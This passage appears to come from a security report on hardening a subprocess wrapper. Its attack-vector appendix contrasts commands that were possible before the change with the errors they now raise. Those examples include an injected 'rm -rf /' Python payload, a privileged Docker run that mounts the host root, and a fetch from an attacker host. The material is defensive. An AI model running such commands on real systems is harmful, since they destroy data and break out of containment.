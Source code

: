 This implementation represents a significant security improvement and is recommended for immediate deployment to production.

---

## Appendix A: Attack Vector Analysis

### A.1 Python Arbitrary Code Execution

**Before Hardening:**
```bash
# Attacker input reaches subprocess
user_input = "-c 'import os; os.system(\"rm -rf /\")'"
secure_run(['python', user_input])  # CRITICAL VULNERABILITY
```

**After Hardening:**
```bash
# Python not in whitelist
secure_run(['python', '-c', 'malicious code'])
# Result: SecurityError: Executable not allowed: python
```

### A.2 Docker Container Escape

**Before Hardening:**
```bash
# Docker allows full system access
secure_run(['docker', 'run', '--privileged', '-v', '/:/host', 'alpine', 'sh'])
# Container could access host filesystem
```

**After Hardening:**
```bash
secure_run(['docker', 'run', 'alpine'])
# Result: SecurityError: Executable not allowed: docker
```

### A.3 Radare2 Network Exploitation

**Before Hardening:**
```bash
# Radare2 could open network connections
secure_run(['radare2', 'http://attacker.com/malware.exe'])
# Downloads and analyzes remote file
```

**After Hardening:**
```bash
secure_run(['radare2', 'http://attacker.com/malware.exe'])
# Result: SecurityError: Forbidden pattern detected: http://
```

---

## Appendix B: Complete Whitelist Comparison
